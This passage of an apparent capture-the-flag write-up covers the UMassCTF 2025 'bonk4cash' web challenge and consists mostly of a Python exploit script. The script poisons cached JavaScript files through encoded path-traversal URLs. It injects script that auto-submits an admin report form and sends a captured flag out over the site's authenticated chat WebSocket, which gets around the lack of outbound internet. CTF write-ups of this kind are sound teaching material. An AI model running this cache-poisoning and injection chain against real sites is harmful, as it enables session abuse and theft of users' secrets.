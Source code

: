 ![docker](/assets/source/umassctf-2025/bonk4cash/docker.png)

We do have the flag reflected in the docker. But that's not enough. Since the `networks` is set to `no-internet`, outbound requests are not allowed. However we can posion any endpoint, I intend to posion the place where the flag is redirect to (in this case `index.js`). From that place, flag is captured and sent to the `/transcript` page via comments. 

Final payload:
```python
...
# Wait 16 to make sure we can posion the cache
time.sleep(16)

# Poison stats.js
payload = """=[0];
window.onload = function() {
  const form = document.getElementsByTagName('form')[0];
  form.setAttribute("action", "/report/admin");
  form.submit();
};
/*"""
ws.send(payload)
time.sleep(1)
url = BASE_URL + "/static/stats.js/..%2f..%2ftranscript%23%2f..%2fcache%2fstats.js"
session.get(url)
time.sleep(1)

# Poison index.js
payload = """=[0];
let queryString = window.location.search;
const urlParams = new URLSearchParams(queryString);
const result = urlParams.get('result');
let flag;
if(result){
  flag = decodeURI(result);
}
const initChat = async function(){
  const key = await (await fetch("/chatkey", {method:"post", credentials:'include'})).text();
  ws = new WebSocket("/chat");
  ws.onopen = function(event){
    ws.send(key);
  };
  ws.onmessage = function(event){
    if(event.data === "successfully authorized"){
      ws.send(flag)
    }
  };
};
  
initChat();/*"""
ws.send(payload)
time.sleep(1)
url = BASE_URL + "/static/index.js/..%2f..%2ftranscript%23%2f..%2fcache%2findex.js"
session.get(url)
time.sleep(1)

res = session.post(f"{BASE_URL}/report/{username}")
```